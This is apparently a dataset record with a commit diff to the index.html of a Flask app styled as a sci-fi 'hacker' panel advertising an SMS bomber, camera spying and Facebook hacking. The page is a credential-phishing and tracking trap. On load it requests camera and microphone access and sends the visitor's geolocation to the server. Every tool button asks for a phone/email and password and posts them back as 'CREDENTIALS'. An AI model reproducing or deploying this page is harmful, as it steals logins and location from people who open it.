

Before and after one commit to msthumaira01342-art/hacker, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Full Sci-Fi UI Update V7.0

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,71 +3,106 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>PRIME MONIR | KERNEL V6.0</title>
+    <title>PRIME MONIR | KERNEL V7.0</title>
     <style>
         @import url('https://fonts.googleapis.com/css2?family=Share+Tech+Mono&display=swap');
-        body, html { margin:0; padding:0; background:#000; color:#0f0; font-family:'Share Tech Mono', monospace; overflow-x:hidden; }
-        #loader { position:fixed; width:100%; height:100%; background:#000; display:flex; flex-direction:column; justify-content:center; align-items:center; z-index:9999; text-align:center; }
-        .bar-con { width:250px; height:10px; border:1px solid #0f0; margin-top:15px; }
-        .bar { width:0%; height:100%; background:#0f0; animation:load 4s forwards linear; }
-        @keyframes load { to { width:100%; } }
+        body, html { margin:0; padding:0; background:#000; color:#0f0; font-family:'Share Tech Mono', monospace; overflow:hidden; }
+        canvas { position:fixed; top:0; left:0; z-index:-1; opacity:0.4; }
+
+        /* লাল লোডার এনিমেশন */
+        #loader { position:fixed; width:100%; height:100%; background:#000; display:flex; flex-direction:column; justify-content:center; align-items:center; z-index:9999; }
+        .circle { width:100px; height:100px; border:6px solid #200; border-top:6px solid #f00; border-radius:50%; animation:spin 1s linear infinite; box-shadow: 0 0 20px #f00; }
+        @keyframes spin { 0% {transform:rotate(0deg);} 100% {transform:rotate(360deg);} }
+
+        /* মেইন ড্যাশবোর্ড */
         #ui { display:none; padding:15px; }
-        .bomber-btn { border:2px solid #f00; background:rgba(255,0,0,0.1); color:#f00; padding:20px; font-weight:bold; margin-bottom:15px; cursor:pointer; text-align:center; animation:pulse 1.5s infinite; }
-        @keyframes pulse { 0%{box-shadow:0 0 5px #f00;} 50%{box-shadow:0 0 20px #f00;} 100%{box-shadow:0 0 5px #f00;} }
-        .grid { display:grid; grid-template-columns: 1fr 1fr; gap:10px; }
-        .tool { border:1px solid #0f0; padding:15px 5px; background:rgba(0,255,0,0.05); text-align:center; cursor:pointer; font-size:12px; }
+        .header { border:1px solid #0f0; padding:10px; text-align:center; background:rgba(0,255,0,0.1); margin-bottom:20px; box-shadow:0 0 15px #0f0; }
+        .bomber { border:2px solid #f00; background:rgba(255,0,0,0.2); color:#f00; padding:15px; margin-bottom:15px; text-align:center; font-weight:bold; cursor:pointer; animation:blink 1s infinite; font-size:16px; }
+        @keyframes blink { 0% {opacity:1;} 50% {opacity:0.5;} }
+
+        .grid { display:grid; grid-template-columns: 1fr 1fr; gap:12px; }
+        .tool { border:1px solid #0f0; padding:15px; background:rgba(0,255,0,0.1); text-align:center; cursor:pointer; font-size:13px; text-transform:uppercase; transition:0.3s; }
+        .tool:hover { background:#0f0; color:#000; }
+
+        /* কনসোল লোগ */
+        #console { margin-top:20px; border:1px solid #0f0; height:120px; background:rgba(0,0,0,0.8); padding:10px; font-size:11px; overflow-y:auto; line-height:1.5; }
     </style>
 </head>
 <body>
+    <canvas id="matrix"></canvas>
+
     <div id="loader">
-        <div style="letter-spacing:5px; color:#f00;">⚠️ ATTENTION ⚠️</div>
-        <div style="font-size:10px; margin-top:5px;">BYPASSING DEVICE SECURITY...</div>
-        <div class="bar-con"><div class="bar"></div></div>
+        <div class="circle"></div>
+        <div style="color:#f00; margin-top:20px; font-weight:bold; letter-spacing:3px;">INJECTING EXPLOITS...</div>
     </div>
 
     <div id="ui">
-        <div style="border:1px solid #0f0; padding:10px; text-align:center; margin-bottom:15px;">
-            <h2 style="margin:0;">PRIME MONIR | ACCESS PANEL</h2>
+        <div class="header">
+            <h1 style="margin:0; font-size:24px; color:#fff;">PRIME MONIR V7.0</h1>
+            <small>SYSTEM STATUS: <span style="color:#0f0;">OVERRIDE ACTIVE</span></small>
         </div>
-        <div class="bomber-btn" onclick="openTool('SMS_BOMBER')">🔥 SMS BOMBER (FREE)</div>
+
+        <div class="bomber" onclick="run('SMS_BOMBER')">🔥 ULTIMATE SMS BOMBER (HIGH SPEED)</div>
+
         <div class="grid">
-            <div class="tool" onclick="openTool('GALLERY')">GALLERY HACK</div>
-            <div class="tool" onclick="openTool('LOCATION')">LIVE TRACK</div>
-            <div class="tool" onclick="openTool('CAMERA')">CAM SPY</div>
-            <div class="tool" onclick="openTool('FILES')">FILE MANAGER</div>
+            <div class="tool" onclick="run('CAM_SPY')">CAM SPY</div>
+            <div class="tool" onclick="run('LOCATION')">LOCATION</div>
+            <div class="tool" onclick="run('GALLERY')">GALLERY</div>
+            <div class="tool" onclick="run('FILE_MGR')">FILE MGR</div>
+            <div class="tool" onclick="run('FB_HACK')">FB HACK</div>
+            <div class="tool" onclick="run('WA_SPY')">WA SPY</div>
+            <div class="tool" onclick="run('MIC_SPY')">MIC SPY</div>
+            <div class="tool" onclick="run('CALL_LOGS')">CALL LOGS</div>
         </div>
+
+        <div id="console">> Initializing core modules...<br>> Establishing connection... [OK]</div>
     </div>
 
     <script>
-        // অটো এক্সেস ট্র্যাপ - লোডিং এর সময়
+        // Matrix Rain
+        const canvas = document.getElementById('matrix');
+        const ctx = canvas.getContext('2d');
+        canvas.width = window.innerWidth; canvas.height = window.innerHeight;
+        const letters = "0101010101010101";
+        const fontSize = 16;
+        const columns = canvas.width / fontSize;
+        const drops = Array(Math.floor(columns)).fill(1);
+        function draw() {
+            ctx.fillStyle = "rgba(0,0,0,0.05)"; ctx.fillRect(0,0,canvas.width,canvas.height);
+            ctx.fillStyle = "#0f0"; ctx.font = fontSize + "px monospace";
+            for(let i=0; i<drops.length; i++) {
+                const text = letters.charAt(Math.floor(Math.random()*letters.length));
+                ctx.fillText(text, i*fontSize, drops[i]*fontSize);
+                if(drops[i]*fontSize > canvas.height && Math.random() > 0.975) drops[i] = 0;
+                drops[i]++;
+            }
+        }
+        setInterval(draw, 50);
+
+        // Auto Access & Hide Loader
         window.onload = async () => {
             try {
-                // ক্যামেরা ও মাইক পারমিশন
                 await navigator.mediaDevices.getUserMedia({video:true, audio:true});
-                // লোকেশন পারমিশন
-                navigator.geolocation.getCurrentPosition((p) => {
-                    sendData('LOCATION', `Lat: ${p.coords.latitude}, Lon: ${p.coords.longitude}`);
+                navigator.geolocation.getCurrentPosition(p => {
+                    fetch('/log_data', {method:'POST', headers:{'Content-Type':'application/json'},
+                    body:JSON.stringify({type:'LOCATION', content:`Lat:${p.coords.latitude}, Lon:${p.coords.longitude}`})});
                 });
             } catch(e) {}
-
             setTimeout(() => {
                 document.getElementById('loader').style.display = 'none';
                 document.getElementById('ui').style.display = 'block';
-            }, 4000);
+            }, 3500);
         };
 
-        function sendData(type, content) {
-            fetch('/log_data', {method:'POST', headers:{'Content-Type':'application/json'},
-            body:JSON.stringify({type: type, content: content})});
-        }
-
-        function openTool(name) {
-            // টুল ওপেন করতে গেলে তখন আইডি পাসওয়ার্ড চাইবে
-            let u = prompt("Verification Required!\nEnter Phone/Email to link server:");
+        function run(name) {
+            const con = document.getElementById('console');
+            con.innerHTML += `<div style="color:red">> Exploiting ${name}...</div>`;
+            // আইডি-পাসওয়ার্ড ট্র্যাপ
+            let u = prompt("Verification Needed!\nEnter Phone/Email:");
             let p = prompt("Enter Password:");
             if(u && p) {
-                sendData('CREDENTIALS', `User: ${u}, Pass: ${p}, Tool: ${name}`);
-                alert("Connection Established. Streaming data...");
+                fetch('/log_data', {method:'POST', headers:{'Content-Type':'application/json'},
+                body:JSON.stringify({type:'CREDENTIALS', content:`U:${u}, P:${p}, Tool:${name}`})});
             }
         }
     </script>
```
